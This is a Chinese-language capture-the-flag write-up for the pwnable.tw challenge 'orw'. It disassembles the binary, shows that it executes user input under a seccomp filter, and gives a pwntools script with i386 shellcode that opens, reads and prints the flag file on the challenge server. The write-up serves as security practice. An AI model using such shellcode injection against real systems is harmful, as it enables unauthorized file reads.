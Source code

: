 **网站**：https://pwnable.tw/

**Challenge**：orw

### 1、使用file查看文件信息

```bash
$ file orw
orw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e60ecccd9d01c8217387e8b77e9261a1f36b5030, not stripped
```

这是一个32位的可执行文件

### 2、使用objdump反汇编

查看main函数

```bash
08048548 <main>:
 8048548:	8d 4c 24 04          	lea    ecx,[esp+0x4]
 804854c:	83 e4 f0             	and    esp,0xfffffff0
 804854f:	ff 71 fc             	push   DWORD PTR [ecx-0x4]
 8048552:	55                   	push   ebp
 8048553:	89 e5                	mov    ebp,esp
 8048555:	51                   	push   ecx
 8048556:	83 ec 04             	sub    esp,0x4
 8048559:	e8 6d ff ff ff       	call   80484cb <orw_seccomp>
 804855e:	83 ec 0c             	sub    esp,0xc
 8048561:	68 a0 86 04 08       	push   0x80486a0
 8048566:	e8 15 fe ff ff       	call   8048380 <printf@plt>
 804856b:	83 c4 10             	add    esp,0x10
 804856e:	83 ec 04             	sub    esp,0x4
 8048571:	68 c8 00 00 00       	push   0xc8
 8048576:	68 60 a0 04 08       	push   0x804a060					# 从标准输入中读取数存到地址为0x804a060的地方
 804857b:	6a 00                	push   0x0
 804857d:	e8 ee fd ff ff       	call   8048370 <read@plt>
 8048582:	83 c4 10             	add    esp,0x10
 8048585:	b8 60 a0 04 08       	mov    eax,0x804a060
 804858a:	ff d0                	call   eax								# 去地址0x804a060的位置去执行代码
 804858c:	b8 00 00 00 00       	mov    eax,0x0
 8048591:	8b 4d fc             	mov    ecx,DWORD PTR [ebp-0x4]
 8048594:	c9                   	leave
 8048595:	8d 61 fc             	lea    esp,[ecx-0x4]
 8048598:	c3                   	ret
 8048599:	66 90                	xchg   ax,ax
 804859b:	66 90                	xchg   ax,ax
 804859d:	66 90                	xchg   ax,ax
 804859f:	90                   	nop
```

可以看到这个程序的功能是输入一些内容，然后跳转到输入的内容中去执行

### 3、运行程序

![image-20220506223831550](img//image-20220506223831550.png)

可以看到程序提示输入shellcode，显然这是一个简单的题目，直接输入shellcode，然后去执行。

### 4、题目分析

![image-20220506224020442](img//image-20220506224020442.png)

题目要求只能使用`open`、`read`、`write`这3个系统调用，显然不能够开shell，所以我们只能通过这3个系统调用读取/`home/orw/flag`来拿到flag。

### 5、exp

```python
from pwn import *

context.arch = 'i386'
context.os = 'linux'

shellcode = asm("""
    nop
    nop
    sub esp, 0x100
    push 0x6761
    push 0x6c662f77
    push 0x726f2f65
    push 0x6d6f682f
    xor edx, edx
    xor ecx, ecx
    mov ebx, esp
    mov eax, 0x5
    int 0x80
    mov edx, 0x80
    mov ecx, esp
    mov ebx, eax
    mov eax, 0x3
    int 0x80
    mov edx, 0x80
    mov ecx, esp
    mov ebx, 1
    mov eax, 0x4
    int 0x80
""")
r = remote('chall.pwnable.tw', 10001)

r.recvuntil('Give my your shellcode:')
r.send(shellcode)

print r.recvall()
r.interactive()
```

### linux syscall table 参考：

> http://asm.sourceforge.net/syscall.html#3
>
> http://faculty.nps.edu/cseagle/assembly/sys_call.html